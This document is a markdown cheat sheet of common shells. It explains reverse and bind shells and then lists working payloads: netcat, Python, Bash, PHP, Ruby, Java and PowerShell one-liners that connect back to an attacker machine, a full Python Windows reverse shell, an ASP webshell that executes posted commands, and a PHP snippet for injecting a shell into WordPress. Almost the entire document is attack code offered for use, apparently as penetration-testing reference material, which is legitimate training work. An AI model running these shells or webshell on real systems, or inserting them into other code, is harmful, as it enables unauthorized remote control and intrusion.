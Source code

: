 # Common shells

## Types of shells

Shells are used for interfacing with a Command Line environment (CLI) like the common `bash` or `sh` programs in Linux, and the `cmd.exe` and `Powershell` on Windows. When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, we want to use this initial access to obtain a shell running on the target.

### Reverse shell

Reverse shells are when the target is forced to execute code that connects back to the attack computer. This requires setting up a listener which would be used to receive the connection on the attack machine. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.

1. Start a listener on attack machine
2. Start a reverse shell on target machine

### Bind shell

Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be open up a port to receive on that you can connect to, and obtain remote code execution. This has the advantage of not requiring any configuration on the attack network, but may be prevented by firewalls protecting the target.

1. Start a listener on target machine
2. Connect to listener on target from attack machine

## Windows bind shells

In some versions of netcat (including the `nc.exe` Windows version included with Kali at 
`/usr/share/windows-resources/binaries`, and the version used in Kali itself) there is a `-e` option which allows 
for executing a process on connection:

    nc -lvnp <port-number> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

## Windows reverse shells

Netcat:

    nc <IP address attack machine> <port-number> -e C:\Windows\System32\cmd.exe

Python:

```python
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<IP address attack machine>",<port-number>))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

ASP (Credit: Maceo – maceo @ dogmile.com):

```text
<%@ Language=VBScript %>
<%
  Dim oScript
  Dim oScriptNet
  Dim oFileSys, oFile
  Dim szCMD, szTempFile

  On Error Resume Next

  ' -- create the COM objects that we will be using -- '
  Set oScript = Server.CreateObject("WSCRIPT.SHELL")
  Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
  Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

  ' -- check for a command that we have posted -- '
  szCMD = Request.Form(".CMD")
  If (szCMD <> "") Then

    ' -- Use a poor man's pipe ... a temp file -- '
    szTempFile = "C:\" & oFileSys.GetTempName( )
    Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
    Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)

  End If

%>
<HTML>
<BODY>
<FORM action="<%= Request.ServerVariables("URL") %>" method="POST">
<input type=text name=".CMD" size=45 value="<%= szCMD %>">
<input type=submit value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<br>
<%
  If (IsObject(oFile)) Then
    ' -- Read the output from our command and remove the temp file -- '
    On Error Resume Next
    Response.Write Server.HTMLEncode(oFile.ReadAll)
    oFile.Close
    Call oFileSys.DeleteFile(szTempFile, True)
  End If
%>
</BODY>
</HTML>
```

## Linux bind shells

On Linux, use this code to create a listener for a bind shell:

    mkfifo /tmp/f; nc -lvnp <port-number> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

## Linux reverse shells

Netcat:

    nc <IP address attack machine> <port-number> -e /bin/sh

Netcat Traditional (like the one on Kali):

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attack machine> <port-number> >/tmp/f;/tmp/f

Python:

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP address attack machine>",<port-number>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Bash:

    bash -i >& /dev/tcp/<IP address attack machine>/<port-number> 0>&1

PHP:

    php -r '$sock=fsockopen("<IP address attack machine>",<port-number>);exec("/bin/sh -i <&3 >&3 2>&3");'

PHP alternative 1:

    php -r '$sock=fsockopen("<IP address attack machine>",<port-number>);$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);'

PHP alternative 2:

    <?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attack machine> <port-number> >/tmp/f'); ?>

PHP WordPress:

    <?php if(is_home()) { exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP address attack machine> <port-number> >/tmp/f'); } ?>

Ruby:

    ruby -rsocket -e'f=TCPSocket.open("<IP address attack machine>",<port-number>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Java:

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP address attack machine>/<port-number>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

## Windows server reverse shells

The standard one-liner PSH reverse shell:

    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port-number>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Copy into a `cmd.exe` shell or another method of executing commands on a Windows server, such as a webshell. 
